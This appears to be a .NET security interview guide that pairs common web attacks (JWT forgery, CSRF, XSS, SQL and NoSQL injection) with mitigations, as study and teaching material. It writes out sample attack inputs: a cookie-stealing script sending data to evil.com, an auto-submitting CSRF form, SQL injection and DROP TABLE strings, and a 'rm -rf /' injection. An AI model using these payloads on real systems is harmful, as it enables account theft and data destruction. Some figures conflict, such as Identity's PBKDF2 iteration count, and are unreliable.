



# 🔐 Security Interview Guide

> Authentication · JWT attacks · CSRF · XSS · SQL Injection · Password hashing · TLS · API security · Secret management
> Every topic: attack vector → exploit → mitigation with .NET code.

---

## 📋 Table of Contents

1. [Authentication vs Authorization](#1-authentication-vs-authorization)
2. [JWT Deep Dive & Attacks](#2-jwt-deep-dive--attacks)
3. [CSRF (Cross-Site Request Forgery)](#3-csrf-cross-site-request-forgery)
4. [XSS (Cross-Site Scripting)](#4-xss-cross-site-scripting)
5. [SQL Injection](#5-sql-injection)
6. [Password Hashing](#6-password-hashing)
7. [HTTPS / TLS Basics](#7-https--tls-basics)
8. [API Security](#8-api-security)
9. [Secret Management](#9-secret-management)

---

## 1. Authentication vs Authorization

> 📚 Reference: https://learn.microsoft.com/en-us/aspnet/core/security/

### Definition

**Authentication (AuthN)** — *Who are you?* Verifies identity (JWT, cookie, API key).  
**Authorization (AuthZ)** — *What can you do?* Checks permissions after identity is known.

```csharp
// Authentication: read token → populate User (ClaimsPrincipal)
app.UseAuthentication();   // MUST come before UseAuthorization

// Authorization: check User has required claims/roles/policy
app.UseAuthorization();

// ❌ Wrong order — authorization runs before user is set → always 403
app.UseAuthorization();
app.UseAuthentication();

// Controller-level:
[Authorize]                           // any authenticated user
[Authorize(Roles = "Admin")]          // must have Admin role
[Authorize(Policy = "CanApproveOrders")] // must satisfy policy

// Policy definition
builder.Services.AddAuthorization(options =>
{
    options.AddPolicy("CanApproveOrders", policy =>
        policy.RequireRole("Manager", "Admin")
              .RequireClaim("department", "finance")
              .RequireAssertion(ctx =>
                  ctx.User.FindFirst("approval_limit") is { } c &&
                  decimal.Parse(c.Value) >= 10_000));
});
```

### Common Auth Schemes

| Scheme | How | Use for |
|--------|-----|---------|
| JWT Bearer | Token in `Authorization: Bearer` header | SPAs, mobile, APIs |
| Cookie | Browser sends cookie automatically | Server-rendered web apps |
| API Key | Key in header or query string | Server-to-server, simple APIs |
| OAuth2 + OIDC | Delegated auth via Identity Provider | Third-party login (Google, Microsoft) |
| mTLS | Client certificate | Microservice-to-microservice |

---

## 2. JWT Deep Dive & Attacks

> 📚 Reference: https://jwt.io/

### JWT Structure
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9    ← Header (base64)
.
eyJzdWIiOiIxMjMiLCJyb2xlIjoiQWRtaW4ifQ  ← Payload (base64, NOT encrypted)
.
HMACSHA256(header + "." + payload, secret) ← Signature

Header:  { "alg": "HS256", "typ": "JWT" }
Payload: { "sub": "123", "email": "alice@test.com", "role": "Admin", "exp": 1735689600 }
```

**JWT is signed, NOT encrypted.** Payload is base64 — anyone can decode it. Never put secrets in JWT payload.

---

### Attack 1: Algorithm Confusion ("alg:none")

❌ **Vulnerable** — accepting `alg:none` allows forging tokens with no signature:
```csharp
// Attacker crafts: { "alg": "none" } header + { "role": "Admin" } payload + empty signature
// If server accepts alg:none → attacker is Admin without knowing secret key

// Old/misconfigured JWT libraries accepted this
```

✅ **Mitigation** — explicitly specify allowed algorithms:
```csharp
options.TokenValidationParameters = new TokenValidationParameters
{
    ValidAlgorithms        = new[] { SecurityAlgorithms.HmacSha256 }, // whitelist only HS256
    ValidateIssuerSigningKey = true,
    IssuerSigningKey         = new SymmetricSecurityKey(Encoding.UTF8.GetBytes(secret))
    // "none" algorithm is rejected automatically
};
```

---

### Attack 2: HS256/RS256 Confusion

If server uses RS256 (asymmetric — signs with private key, verifies with public key), attacker can use the **public key** as the HS256 HMAC secret to forge tokens.

✅ **Mitigation** — validate algorithm matches expected:
```csharp
// Always specify which algorithm you expect
ValidAlgorithms = new[] { SecurityAlgorithms.RsaSha256 };
// If algorithm in token != RsaSha256 → rejected
```

---

### Attack 3: JWT Stored in localStorage → XSS Theft

❌ **Wrong** — storing JWT in localStorage:
```js
localStorage.setItem("token", jwt); // XSS can read this via document.cookie or localStorage
```

✅ **Better** — store JWT in `httpOnly` cookie (JS cannot read it):
```csharp
// Server sets httpOnly cookie
Response.Cookies.Append("access_token", jwt, new CookieOptions
{
    HttpOnly  = true,    // JS cannot access
    Secure    = true,    // HTTPS only
    SameSite  = SameSiteMode.Strict, // CSRF protection
    Expires   = DateTimeOffset.UtcNow.AddHours(1)
});
```

---

### Attack 4: Expired Token Accepted

❌ **Wrong** — not validating `exp` claim:
```csharp
// Missing ValidateLifetime = true → expired tokens accepted forever!
TokenValidationParameters = new TokenValidationParameters
{
    ValidateIssuerSigningKey = true,
    IssuerSigningKey         = key
    // ValidateLifetime not set → defaults to false in some libraries
};
```

✅ **Correct** — always validate lifetime:
```csharp
TokenValidationParameters = new TokenValidationParameters
{
    ValidateLifetime     = true,          // check exp claim
    ClockSkew            = TimeSpan.Zero  // no tolerance for expired tokens (default is 5 min!)
};
```

---

### Token Refresh Pattern
```csharp
// Issue short-lived access token + long-lived refresh token
public (string accessToken, string refreshToken) IssueTokens(User user)
{
    var access  = GenerateJwt(user, expiry: TimeSpan.FromMinutes(15)); // short-lived
    var refresh = GenerateOpaqueToken();                                // random 256-bit string

    // Store refresh token in DB (hashed) — can be revoked
    _db.RefreshTokens.Add(new RefreshToken
    {
        Token     = HashToken(refresh),
        UserId    = user.Id,
        ExpiresAt = DateTime.UtcNow.AddDays(30),
        IsRevoked = false
    });

    return (access, refresh);
}

// Exchange refresh token for new access token
public async Task<string> RefreshAsync(string refreshToken)
{
    var hashed = HashToken(refreshToken);
    var stored = await _db.RefreshTokens
        .FirstOrDefaultAsync(r => r.Token == hashed && !r.IsRevoked && r.ExpiresAt > DateTime.UtcNow)
        ?? throw new UnauthorizedException("Invalid or expired refresh token");

    // Rotate: invalidate old refresh token, issue new one
    stored.IsRevoked = true;
    var (access, newRefresh) = IssueTokens(await _db.Users.FindAsync(stored.UserId)!);
    await _db.SaveChangesAsync();

    return access;
}
```

---

## 3. CSRF (Cross-Site Request Forgery)

### Attack Vector
```
1. Alice logs into bank.com — browser stores session cookie
2. Alice visits evil.com
3. evil.com has: <form action="https://bank.com/transfer" method="POST">
                    <input name="to" value="attacker">
                    <input name="amount" value="10000">
                 </form>
                 <script>document.forms[0].submit()</script>
4. Browser automatically sends bank.com session cookie → transfer executes!
Alice never clicked anything
```

### Mitigations

**1. SameSite Cookie (modern, recommended):**
```csharp
// Strict: cookie only sent for same-site requests (breaks some cross-site flows)
// Lax: cookie sent for top-level GET navigation (allows most flows, protects POST)
Response.Cookies.Append("session", value, new CookieOptions
{
    SameSite = SameSiteMode.Strict,
    HttpOnly = true,
    Secure   = true
});
```

**2. CSRF Token (classic approach, for cookie-based auth):**
```csharp
// ASP.NET Core anti-forgery
builder.Services.AddAntiforgery(options =>
{
    options.HeaderName = "X-XSRF-TOKEN"; // JavaScript reads cookie, sends in header
});

// In Razor pages / MVC forms — auto-injected
@Html.AntiForgeryToken()  // <input type="hidden" name="__RequestVerificationToken" value="...">

// API controller — validate header
[ValidateAntiForgeryToken]
[HttpPost]
public IActionResult Transfer(TransferRequest req) { ... }
```

**3. Why JWT Bearer is CSRF-immune:**
```
Cookie: automatically sent by browser → CSRF possible
JWT in Authorization header: browser never auto-sends custom headers
  → CSRF attacker cannot set Authorization header from evil.com
  → JWT APIs using Bearer tokens are inherently CSRF-safe
```

---

## 4. XSS (Cross-Site Scripting)

### Attack Types

**Stored XSS** — malicious script saved to DB, served to all users:
```
Attacker posts comment: <script>document.location='https://evil.com/steal?c='+document.cookie</script>
Server saves it. Alice views page → script executes → cookie stolen
```

**Reflected XSS** — script in URL parameter, reflected in response:
```
https://example.com/search?q=<script>alert(document.cookie)</script>
If server renders: <p>Results for: <script>alert(document.cookie)</script></p>
→ Executes in victim's browser
```

### Mitigations

**1. Encode output — never render raw user input:**
```csharp
// ❌ Wrong — raw user input rendered as HTML
return Content($"<p>Hello {username}</p>", "text/html"); // if username = <script>...</script>

// ✅ Correct — HTML encode before rendering
return Content($"<p>Hello {HtmlEncoder.Default.Encode(username)}</p>", "text/html");

// In Razor — automatic encoding by default
<p>Hello @Model.Username</p>     // ✅ Razor encodes automatically
<p>Hello @Html.Raw(Model.Username)</p> // ❌ @Html.Raw bypasses encoding — dangerous!
```

**2. Content Security Policy (CSP) header:**
```csharp
app.Use(async (ctx, next) =>
{
    ctx.Response.Headers["Content-Security-Policy"] =
        "default-src 'self'; " +              // only load resources from same origin
        "script-src 'self' 'nonce-{nonce}'; " + // scripts need nonce or same-origin
        "style-src 'self' https://fonts.googleapis.com; " +
        "img-src 'self' data: https:; " +
        "object-src 'none'; " +               // no Flash/plugins
        "frame-ancestors 'none'";             // no iframes (clickjacking protection)
    await next();
});
// Even if XSS script injected, CSP blocks it from executing (no inline scripts allowed)
```

**3. HttpOnly cookies — XSS can't steal tokens:**
```
HttpOnly cookie: cannot be accessed via document.cookie
Even if XSS executes → cannot steal session cookie
```

---

## 5. SQL Injection

### Attack Vector
```sql
-- Login form: username = "alice'--", password = "anything"
-- Vulnerable query:
"SELECT * FROM Users WHERE Username = '" + username + "' AND Password = '" + password + "'"
-- Becomes:
SELECT * FROM Users WHERE Username = 'alice'--' AND Password = 'anything'
-- '--' comments out password check → login as alice without password!

-- Drop table attack: username = "'; DROP TABLE Users; --"
SELECT * FROM Users WHERE Username = ''; DROP TABLE Users; --' AND ...
```

### Mitigations

❌ **Wrong** — string concatenation:
```csharp
var sql = $"SELECT * FROM Users WHERE Username = '{username}'";
var user = await _db.Database.ExecuteSqlRawAsync(sql); // injectable!
```

✅ **Correct** — parameterised queries (parameters are never interpreted as SQL):
```csharp
// Raw SQL with parameters — safe
var user = await _db.Users
    .FromSqlRaw("SELECT * FROM Users WHERE Username = {0}", username)
    .FirstOrDefaultAsync();

// ADO.NET parameterised
var cmd = new SqlCommand("SELECT * FROM Users WHERE Username = @username", conn);
cmd.Parameters.AddWithValue("@username", username); // value never interpreted as SQL

// EF Core LINQ — always parameterised automatically
var user = await _db.Users
    .Where(u => u.Username == username) // EF generates: WHERE Username = @p0
    .FirstOrDefaultAsync();

// EF Core interpolated string — safe (uses FormattableString, not string)
var user = await _db.Users
    .FromSqlInterpolated($"SELECT * FROM Users WHERE Username = {username}")
    .FirstOrDefaultAsync();
```

### Second-Order SQL Injection
```
Attack: attacker registers username = "admin'--"
System stores it safely (parameterised).
Later, admin panel retrieves username and uses it in a different non-parameterised query:
  "UPDATE Users SET Password = '" + storedUsername + "' WHERE ..."
→ the stored malicious value is now injected

Mitigation: ALWAYS use parameterised queries, even when data "came from your own DB"
```

---

## 6. Password Hashing

### Why Not MD5/SHA256?

```
MD5 hash of "password123" = 482c811da5d5b4bc6d497ffa98491e38
→ Same input = same hash (deterministic)
→ Rainbow table attack: precomputed hashes for millions of passwords
→ "482c811d..." found in rainbow table → "password123"

BCrypt/Argon2: includes random SALT per password
"password123" + salt1 = $2a$12$uniquehash1
"password123" + salt2 = $2a$12$differenthash2
→ Same password → different hash → rainbow tables useless
→ Work factor (cost) makes brute force computationally expensive
```

### Implementation

❌ **Wrong** — MD5/SHA256 without salt:
```csharp
var hash = Convert.ToHexString(MD5.HashData(Encoding.UTF8.GetBytes(password)));
// Crackable in seconds with rainbow tables
```

✅ **Correct** — BCrypt with work factor:
```csharp
// Install: dotnet add package BCrypt.Net-Next

// Hash (on registration)
string hash = BCrypt.Net.BCrypt.HashPassword(plainPassword, workFactor: 12);
// $2a$12$<22-char-salt><31-char-hash>
// workFactor 12 = 2^12 = 4096 iterations → ~200ms per hash (too slow for brute force)

// Verify (on login)
bool isValid = BCrypt.Net.BCrypt.Verify(plainPassword, storedHash);

// ASP.NET Core Identity uses PBKDF2 by default
builder.Services.AddIdentity<ApplicationUser, IdentityRole>()
    .AddEntityFrameworkStores<AppDbContext>();
// Identity hashes with PBKDF2-SHA256, 10000 iterations + salt automatically
```

### Password Policy
```csharp
builder.Services.AddIdentity<ApplicationUser, IdentityRole>(options =>
{
    options.Password.RequiredLength         = 12;
    options.Password.RequireDigit           = true;
    options.Password.RequireUppercase       = true;
    options.Password.RequireNonAlphanumeric = true;
    options.Lockout.MaxFailedAccessAttempts = 5;
    options.Lockout.DefaultLockoutTimeSpan  = TimeSpan.FromMinutes(15);
    options.Lockout.AllowedForNewUsers      = true;
});
```

---

## 7. HTTPS / TLS Basics

### How TLS Handshake Works
```
Client                                    Server
  │── ClientHello (TLS version, ciphers) ──►│
  │                                          │
  │◄── ServerHello + Certificate ────────────│
  │                                          │
  │  Client verifies certificate:            │
  │  ✅ Signed by trusted CA (e.g. DigiCert)?│
  │  ✅ Hostname matches CN/SAN?             │
  │  ✅ Not expired or revoked?              │
  │                                          │
  │── Generate pre-master secret             │
  │── Encrypt with server's public key ──────►│
  │                                          ├─ Decrypt with private key
  │                                          ├─ Both derive session key
  │                                          │
  │◄─────────── Encrypted traffic ──────────►│
```

### HTTPS in .NET
```csharp
// Force HTTPS everywhere
app.UseHsts();            // Strict-Transport-Security header: browser always uses HTTPS
app.UseHttpsRedirection(); // Redirect HTTP → HTTPS

// HSTS header tells browser: always use HTTPS for this domain for next year
// Response: Strict-Transport-Security: max-age=31536000; includeSubDomains; preload

// Certificate pinning for HttpClient (microservice-to-microservice)
var handler = new HttpClientHandler();
handler.ServerCertificateCustomValidationCallback = (message, cert, chain, errors) =>
{
    // Pin to specific thumbprint — reject even valid certs from other CAs
    return cert?.GetCertHashString() == expectedThumbprint;
};
```

### Certificate Management
```bash
# Azure App Service — auto-renews Let's Encrypt / App Service Managed Certificate
# Never hardcode certificates in app code or Docker images

# ASP.NET Core dev certificate
dotnet dev-certs https --trust
```

---

## 8. API Security

### OWASP API Security Top 10 + Mitigations

**BOLA (Broken Object Level Authorization)** — accessing another user's data:
```csharp
// ❌ Wrong — any authenticated user can get any order
[HttpGet("orders/{id}")]
[Authorize]
public Task<IActionResult> GetOrder(Guid id)
    => Ok(await _db.Orders.FindAsync(id)); // returns ANY order

// ✅ Correct — scope to current user
[HttpGet("orders/{id}")]
[Authorize]
public async Task<IActionResult> GetOrder(Guid id)
{
    var userId = User.FindFirst("sub")!.Value;
    var order  = await _db.Orders
        .FirstOrDefaultAsync(o => o.Id == id && o.UserId == userId); // ownership check!
    return order is null ? NotFound() : Ok(order);
}
```

**Mass Assignment** — client sets fields they shouldn't:
```csharp
// ❌ Wrong — user can POST { "role": "Admin", "isAdmin": true }
public async Task<IActionResult> Update(User user)
{
    _db.Users.Update(user); // attacker escalates own privilege!
    await _db.SaveChangesAsync();
}

// ✅ Correct — accept DTO, map only allowed fields
public async Task<IActionResult> Update(UpdateProfileDto dto)
{
    var user     = await _db.Users.FindAsync(CurrentUserId);
    user!.Name   = dto.Name;   // only allowed fields
    user.Bio     = dto.Bio;
    // role, isAdmin NOT settable via this endpoint
    await _db.SaveChangesAsync();
}
```

**Security Headers:**
```csharp
app.Use(async (ctx, next) =>
{
    var headers = ctx.Response.Headers;
    headers["X-Content-Type-Options"]    = "nosniff";          // no MIME sniffing
    headers["X-Frame-Options"]           = "DENY";             // no iframes (clickjacking)
    headers["X-XSS-Protection"]          = "1; mode=block";    // legacy XSS filter
    headers["Referrer-Policy"]           = "strict-origin-when-cross-origin";
    headers["Permissions-Policy"]        = "camera=(), microphone=(), geolocation=()";
    await next();
});
```

---

## 9. Secret Management

### What Is a Secret?
Connection strings, API keys, JWT signing keys, certificates, passwords. **Secrets must NEVER be in source code or Docker images.**

### Violation Examples
```bash
# ❌ Secrets in appsettings.json (committed to git)
{
  "Jwt": { "Key": "SuperSecretKey12345!" },
  "ConnectionStrings": { "Default": "Server=prod;Password=MyPassword123" }
}

# ❌ Secrets in environment variables in docker-compose.yml (committed to git)
environment:
  - DB_PASSWORD=MyPassword123

# ❌ Secrets in Dockerfile
ENV JWT_SECRET=abc123
```

### Correct Approaches

**1. Azure Key Vault (production):**
```csharp
// Program.cs — load secrets from Key Vault
builder.Configuration.AddAzureKeyVault(
    new Uri($"https://{vaultName}.vault.azure.net/"),
    new DefaultAzureCredential());  // uses Managed Identity — no credentials needed!

// Secret "ConnectionStrings--Default" in Key Vault
// maps to ConnectionStrings:Default in config (-- becomes :)
var connStr = builder.Configuration.GetConnectionString("Default"); // reads from Key Vault
```

**2. .NET User Secrets (development only, never committed):**
```bash
dotnet user-secrets set "Jwt:Key" "my-local-dev-secret"
dotnet user-secrets set "ConnectionStrings:Default" "Server=localhost;..."
# Stored in: %APPDATA%\Microsoft\UserSecrets\<projectId>\secrets.json
# NEVER pushed to git
```

**3. Kubernetes Secrets:**
```bash
kubectl create secret generic db-secret \
  --from-literal=connection-string="Server=prod;Password=..."
# Stored base64-encoded in etcd; use RBAC to restrict access
# Use Azure Key Vault provider for AKS to sync secrets automatically
```

**4. Secret Rotation — zero-downtime:**
```csharp
// Load secrets dynamically — reload on change (Azure Key Vault SDK supports this)
builder.Configuration.AddAzureKeyVault(vaultUri, credential, new KeyVaultSecretManager());

// Connection string rotation: add new secret version, update app config, old version disabled
// Zero-downtime because Key Vault returns latest active version
```

### Secret Scanning in CI
```yaml
# GitHub Actions — detect secrets before they reach main
- name: Scan for secrets
  uses: trufflesecurity/trufflehog@main
  with:
    path: ./
    base: main
    head: HEAD

# Pre-commit hook (local)
# Install: pip install detect-secrets
# detect-secrets scan > .secrets.baseline
# detect-secrets audit .secrets.baseline
```

---

> ✅ **9 security topics** — attack vectors, exploits, and mitigations with .NET code.
>
> 💡 **Security cheat sheet:**
> - JWT: **sign with RS256 in production** (asymmetric — private key stays on server)
> - Passwords: **BCrypt work factor 12** or ASP.NET Core Identity (PBKDF2)
> - CSRF: **SameSite=Strict cookies** + **JWT Bearer is CSRF-immune**
> - SQL injection: **always parameterise — EF LINQ is safe; Raw SQL needs `{0}` or `@param`**
> - Secrets: **Azure Key Vault + Managed Identity** — zero credentials in code
> - Headers: **CSP + X-Frame-Options + X-Content-Type-Options** on every response

---

*Last updated: 2026 | .NET 8 / OWASP API Security 2023*

---

# ⚖️ Security Comparisons — Side-by-Side Differences

---

## SEC-C1 — Authentication vs Authorization

| | Authentication (AuthN) | Authorization (AuthZ) |
|-|----------------------|----------------------|
| Question | "Who are you?" | "What can you do?" |
| Happens | First (identify user) | Second (check permissions) |
| Failure code | 401 Unauthorized | 403 Forbidden |
| Mechanism | JWT, cookie, API key, OAuth | Roles, claims, policies, RBAC |
| .NET middleware | `UseAuthentication()` | `UseAuthorization()` |

```csharp
// 401 — not authenticated (no token / bad token)
// 403 — authenticated but lacks permission (valid token, wrong role)

[Authorize]                           // 401 if no valid token
[Authorize(Roles = "Admin")]          // 403 if valid token but not Admin
[Authorize(Policy = "CanApprove")]    // 403 if valid token but policy fails
```

---

## SEC-C2 — JWT vs Session Cookies

| | JWT (Stateless) | Session Cookies (Stateful) |
|-|----------------|--------------------------|
| Server stores state | ❌ No (self-contained) | ✅ Yes (session store) |
| Scalability | ✅ Any server handles (stateless) | Needs sticky sessions or shared store (Redis) |
| Revocation | ❌ Hard (wait for expiry) | ✅ Instant (delete session) |
| CSRF risk | ❌ No (header-based) | ✅ Yes (auto-sent by browser) |
| Size | Larger (payload in token) | Small (session ID only) |
| Best for | SPAs, mobile, microservices | Server-rendered apps (MVC Razor Pages) |

```csharp
// JWT — stateless, header-based
Authorization: Bearer eyJhbGci...
// No server state — any instance can validate

// Session cookie — server must store session
Set-Cookie: .AspNetCore.Session=abc123; HttpOnly; SameSite=Strict
// Server looks up "abc123" in Redis/memory to get session data
```

---

## SEC-C3 — OAuth 2.0 vs OpenID Connect (OIDC)

| | OAuth 2.0 | OpenID Connect (OIDC) |
|-|----------|----------------------|
| Purpose | Authorization (access to resources) | Authentication (who the user is) |
| Token type | Access token | ID token (JWT) + Access token |
| User info | ❌ Not defined | ✅ `sub`, `email`, `name` claims in ID token |
| Built on | Protocol | Layer on top of OAuth 2.0 |
| Use for | "Login with Google" access to Drive API | "Login with Google" to know who the user is |

```
OAuth 2.0 flow (authorization):
User → "Allow MyApp to read your Google Drive?" → Access Token
MyApp uses Access Token to call Google Drive API

OIDC flow (authentication):
User → "Login with Google" → ID Token (contains sub/email) + Access Token
MyApp reads ID Token to know user identity (who they are)
```

---

## SEC-C4 — Symmetric vs Asymmetric Encryption

| | Symmetric (HS256) | Asymmetric (RS256 / ES256) |
|-|-----------------|--------------------------|
| Keys | Single shared secret | Key pair (private sign, public verify) |
| JWT signing | HMAC-SHA256 with secret | RSA or ECDSA with private key |
| Key distribution | ❌ Secret must be shared securely | ✅ Public key freely distributed |
| Performance | ✅ Faster | Slower |
| Use for | Single-service (issuer = verifier) | Multi-service (one issuer, many verifiers) |
| Risk if key leaked | All tokens forgeable | Only private key forgeable (public key safe to share) |

```csharp
// HS256 — both sides need the same secret (bad for microservices)
new SymmetricSecurityKey(Encoding.UTF8.GetBytes(secret))

// RS256 — auth server has private key, all services verify with public key
new RsaSecurityKey(rsa) { KeyId = "my-key-id" }
// Services download public key from /.well-known/jwks.json — no secret sharing needed
```

---

## SEC-C5 — Stored XSS vs Reflected XSS vs DOM-Based XSS

| | Stored XSS | Reflected XSS | DOM-Based XSS |
|-|-----------|--------------|---------------|
| Payload stored | ✅ In DB/server | ❌ In URL/form | ❌ Client-side only |
| Victim | Any user loading the page | Only user clicking crafted link | Only user visiting crafted URL |
| Server involvement | ✅ Serves malicious content | ✅ Reflects in response | ❌ Client JS only |
| Example | Malicious comment saved to DB | `?search=<script>...` reflected in response | `document.innerHTML = location.hash` |
| Mitigation | Output encoding + CSP | Output encoding + CSP | Avoid `innerHTML`; use `textContent` |

```csharp
// ❌ Stored XSS — unsanitised comment served to all users
<p>@Html.Raw(comment.Content)</p>  // executes any script in comment

// ✅ Razor auto-encodes (safe by default)
<p>@comment.Content</p>  // encodes < > " ' → &lt; &gt; &quot; &#x27;
```

---

## SEC-C6 — SQL Injection vs NoSQL Injection vs LDAP Injection

| | SQL Injection | NoSQL Injection | Command Injection |
|-|-------------|----------------|------------------|
| Target | SQL databases | MongoDB, etc. | OS shell |
| Attack vector | Unparameterised SQL strings | Unvalidated JSON operators | Unsanitised shell commands |
| Example payload | `' OR 1=1 --` | `{ "$gt": "" }` | `; rm -rf /` |
| Mitigation | Parameterised queries / EF LINQ | Schema validation, sanitise operators | Never pass user input to shell |

```csharp
// ❌ SQL injection
$"SELECT * FROM Users WHERE Name = '{input}'"  // input = "' OR 1=1 --"

// ❌ NoSQL injection (MongoDB)
var filter = $"{{ \"name\": \"{input}\" }}"  // input = {"$gt": ""} → returns all users

// ✅ Both fixed with parameterised / typed queries
_db.Users.Where(u => u.Name == input)  // EF LINQ — always safe
collection.Find(u => u.Name == input)  // MongoDB typed filter — safe
```

---

## SEC-C7 — CSRF vs XSS vs Clickjacking

| | CSRF | XSS | Clickjacking |
|-|------|-----|-------------|
| Attack type | Forged request from victim's browser | Script injection in victim's browser | Tricking user to click hidden element |
| Uses victim's | Session/cookie | Browser context (cookies, DOM) | Browser UI |
| Mitigation | SameSite cookies, CSRF token | CSP, output encoding | `X-Frame-Options: DENY`, `frame-ancestors 'none'` |
| Example | Fake form posting to bank.com | `<script>steal(document.cookie)</script>` | Invisible iframe over "Like" button |

---

## SEC-C8 — bcrypt vs PBKDF2 vs Argon2 vs SHA-256 for Passwords

| | SHA-256 (MD5) | bcrypt | PBKDF2 | Argon2 |
|-|--------------|--------|--------|--------|
| Password hashing | ❌ Never | ✅ Good | ✅ Good (.NET Identity default) | ✅ Best (2015 winner) |
| Salt built-in | ❌ Manual | ✅ | ✅ | ✅ |
| Work factor tunable | ❌ | ✅ (`workFactor`) | ✅ (`iterations`) | ✅ (time + memory) |
| Memory hardness | ❌ | ❌ | ❌ | ✅ (GPU-resistant) |
| .NET usage | ❌ Don't use for passwords | `BCrypt.Net` NuGet | ASP.NET Core Identity | `Konscious.Security.Cryptography` |

```csharp
// ✅ bcrypt — good default choice
string hash   = BCrypt.Net.BCrypt.HashPassword(password, workFactor: 12);
bool   isValid = BCrypt.Net.BCrypt.Verify(password, hash);

// ✅ ASP.NET Core Identity — PBKDF2-SHA512, 100,000 iterations, built-in
services.AddIdentity<ApplicationUser, IdentityRole>();
// PasswordHasher handles salt + stretching automatically

// ❌ SHA-256 — fast, no salt, crackable with rainbow tables in seconds
